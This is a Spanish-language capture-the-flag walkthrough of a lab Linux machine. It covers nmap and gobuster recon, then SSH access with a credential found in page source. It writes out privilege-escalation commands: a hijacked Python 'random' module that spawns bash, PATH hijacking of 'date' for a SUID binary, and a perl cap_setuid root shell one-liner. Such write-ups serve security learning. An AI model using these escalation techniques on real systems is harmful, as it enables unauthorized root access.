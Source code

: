 # Summary
- IP: 10.129.135.230
- Ports: 22,80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
	-  80 -> Golang net/http server

# Recon
- Reconocimiento básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` 
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
``` 

- Análisis de directorios web con gobuster:

```
#gobuster dir -u 10.10.152.138 -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 200
```

- Encontramos el directorio "/r" entramos y volvermos a buscar directorios con gobuster:

```
#gobuster dir -u 10.10.152.138/r -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 200
```

- Encontramos el directorio "/r/a", así buscamos directorios hasta llegar a "/r/a/b/b/i/t" y aquí, analizando el código fuente podemos encontrar una credencial para el usuario "alice", accedemos por SSH:

- Vemos permisos de sudoers, nos arroja lo siguiente "(rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py" es decir, podemos ejecutar dicha script como el usuario "rabbit".

- Analizamos la script en python encontrada, nos damos cuenta que no podemos modificarlo; analizando el código vemos que importa la librería "random", esto podemos aprovecharlo creando un archivo "random.py" en el directorio actual el cual contenga el código para ejecutar una bash como el usuario propietario de la script:

```
nano random

import os
os.system("/bin/bash")
```

- Ahora ejecutamos la script como el usuario "rabbit" y pivotamos de usuario:

```
$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

- Analizamos el directorio "/home/rabbit" y nos encontramos un binario de linux x64, lo analizamos con strings (si es necesario descargarlo en la máquina atacante para poder analizarlo):

```
strings teaParty
```

- En una parte del binario vemos lo siguiente:

```
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

- Es decir, está llamando a "date" usando ruta relativa, a diferencia de "echo" en la cual si está utilizando la ruta absoluta, esto podemos explotarlo con PATH Hijacking:

```
touch /tmp/date
chmod +x /tmp/date
nano /tmp/date

#!/bin/bash
/bin/bash

export PATH=/tmp:$PATH
```

- (El binario tiene permisos SUID, sin embargo analizando los permisos vemos que como "rabbit" solo podemos ejecutarlo).

- Ahora ejecutamos el binario y se desplegará una bash como el usuario "hatter".

- En el directorio "/home/hatter" encontramos un password, lo usamos para entrar por SSH como el usuario "hatter" para tener una bash completamente funcional:

- Buscamos capabilities y encontramos el siguiente binario:

```
/usr/bin/perl = cap_setuid+ep
```

- Hacemos una búsqueda en gtfobins y encontramos el siguiente comando para poder escalar privilegios aprovechando las capabilities del binario "perl":

```
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

- Ejecutamos el comando y accedemos como root, vemos las flags tanto como de user y de root.

